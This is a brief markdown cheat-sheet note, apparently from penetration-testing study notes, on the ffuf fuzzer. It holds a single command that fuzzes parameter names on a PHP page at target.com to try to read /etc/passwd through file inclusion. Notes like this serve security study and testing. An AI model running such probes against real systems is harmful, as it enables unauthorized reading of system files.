```yaml
---
title: Fuff
description: 
draft: false
tags: 
date:
---
```


Fuzz file path's to look for `/etc/passwd`
```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -fs 0 -u http://target.com/blog-post/archives/randylogs.php?FUZZ=/etc/passwd
```


---
### Supporting Content
